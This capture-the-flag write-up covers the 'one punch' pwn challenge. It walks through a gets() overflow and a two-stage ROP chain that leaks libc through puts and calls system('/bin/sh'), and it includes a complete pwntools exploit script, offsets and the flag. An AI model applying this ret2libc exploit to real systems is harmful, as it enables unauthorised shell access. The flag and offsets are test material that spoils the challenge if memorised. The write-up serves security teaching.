




# one punch

## Problem

<details>

<summary>Description</summary>

100 BOFs, 100 UAFs, 100 Race cons and 10 km ROP chain, **EVERY SINGLE DAY!!!**

</details>

## Solution

### Basic file checks

We're given a binary with a ld linker and a libc, first thing we'll do is run `pwninit` with the provided linker so it can segfaultlessly load the provided libc

```bash
 pwninit --bin ./one_punch --libc ./libc.so.6 --ld ./ld-linux-x86-64.so.2
```

Next lets do some basic file check

* FULL RELRO: so overwriting GOT is not an option
* No Stack Canary: easier for us to do BOFs
* NX enable: Shellcode is also not an option
* PIE Enabled: means we have to do some leaking to correctly craft the ROP chains

Next, lets statically analyse the binary using ghidra

### Binary Analysis

<figure><figcaption><p>Decompiled Main()</p></figcaption></figure>

First the function will check if `mapped_region` in the `.data` section is empty, if not it will execute `init`, we'll take a look at that later. Next we're greeted with an address leak, lets check what that is using `gdb-pwndbg`

<figure><figcaption><p>Leaked address at initial run which corresponds to <code>pop rdi; ret;</code> gadget</p></figcaption></figure>

It seems the address is pointing to an address that can be useful as our `pop rdi; ret;` gadget which will enable our ROP chains.

<figure><figcaption><p>Decompiled init()</p></figcaption></figure>

The `init` function fills the `mapped_region` with the value of key which holds the value `POWER, GET THE POWER.` . Next lets check `vuln`

<figure><figcaption><p>Decompiled vuln()</p></figcaption></figure>

### Crafting ROP chains

Immediately we see that it's using the `gets` which will enable our overflow, from here we already get an overview of how we'll exceute the ROP chains. First we'll leak one of the function within the GOT and print it out. We can then subtract that with its corresponding offset to find the Libc base address. we can call `system` with `/bin/sh` that's exist within the Libc as follows:

> 1st Payload:
>
> 1. pop rdi -> GOT puts -> PLT puts -> Main (Eventually will call vuln)
>
> 2nd Payload:
>
> 1. pop rdi -> binsh -> system

but there's a twist, `vuln` will do a a comparison between `key` and `mapped_region` . If the two values is not the same, it will exit the program. Below it, the instruction will overwrite the first 21 bytes of `mapped_region` with 0s. This basically is a check to make sure that `vuln` can only be called once. To bypass this, we simply have to call `init` to restore the value. In order to do that we cant return to main after our first BOFs since there's check on `mapped_region` if the memory is empty. So instead, we need to return to `init` passing the if statement and eventually will return to vuln through main.

> 1st Payload:
>
> 1. pop rdi -> GOT puts -> PLT puts -> init
>
> 2nd Payload:
>
> 1. pop rdi -> binsh -> system


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './one_punch'
rop = ROP(exe)
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'netcat.deadsec.quest'
port = 31794

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main
'''.format(**locals())

io = start()

# =========================================================
#                         ADDRESSES
# =========================================================
# Got manually through cyclic gdb-pwndbg
offset = 120

pop_rdi = int(io.recvline()[24:-1].decode(), 16)
elf.address = pop_rdi - 0x1291
ret = elf.address + 0x101a  
call_init = elf.address + 0x13f4
info('leaked elf base address: %#x', elf.address)

# =========================================================
#                         EXPLOITS
# =========================================================
payload = flat({
    offset: [
        pop_rdi,
        elf.got.puts,
        elf.plt.puts,
        ret,
        call_init
    ]
})

# send 1st payload to get puts offset
io.sendlineafter(b'strongest hero?', payload)

io.recvline()

# indexing to save puts addr offset in hex form 
got_puts = unpack(io.recvline()[:6].ljust(8, b'\x00'))
info('leaked got_puts: %#x', got_puts)

# obtained manually using $ readelf -s libc.so.6 | grep puts
libc_base = got_puts - 0x80ed0  
info('libc_base: %#x', libc_base)

# obtained manually using same method as mentioned above
system_addr = libc_base + 0x50d60
info('system_addr: %#x', system_addr)

# obtained manually using $ strings -a -t x libc.so.6 | grep "/bin/sh"
binsh = libc_base + 0x1d8698
info('binsh: %#x', binsh)

# 2nd payload to get shell
payload = flat({
    offset: [
        pop_rdi,
        binsh,
        ret,
        system_addr
    ]
})

# send 2nd payload to get shell
io.sendlineafter(b'strongest hero?', payload)

io.interactive()
```


## Flag

> _**dead{I\_w4nn4\_b3\_4\_s41ky0u\_H3R00000000}**_
